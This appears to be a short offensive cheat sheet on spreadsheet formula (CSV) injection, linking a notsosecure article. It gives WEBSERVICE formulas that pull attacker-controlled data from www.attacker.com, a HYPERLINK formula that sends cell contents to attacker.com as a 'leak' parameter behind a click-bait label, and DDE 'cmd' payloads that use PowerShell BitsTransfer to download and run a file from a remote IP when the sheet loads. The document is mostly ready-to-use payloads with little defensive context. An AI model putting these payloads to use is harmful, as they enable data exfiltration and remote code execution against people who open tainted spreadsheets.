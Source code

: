 Useful Links
---------------------------------------------
https://www.notsosecure.com/data-exfiltration-formula-injection/

Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
```
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################
```
To fill in multiple cells use multiple html file

=WEBSERVICE("http://www.attacker.com/al.html")
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################

=WEBSERVICE("http://www.attacker.com/a2.html")
############ Begin a2.html ##################################
Data
############ End a2.html ####################################


Use Hyperlink formula to send data to attacking server
------------------------------------------------------
# This will send the data from cells "C2" and "D2" to the attackers server using the GET method. 
=HYPERLINK("http://www.attacker.com?leak="&C2&D2,"Please click for further information")


Execute content when the spreadsheet loads
------------------------------------------------
# Works with any payload, will open associated extension or run exe, bat, etc....
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/index.jpeg;Start-Process index.jpeg'!A0
=cmd|'/C powershell Import-Module BitsTransfer;Start-BitsTransfer -source http://xxx.xxx.xxx.xxx/ps.bat;Start-Process ps.bat'!A0
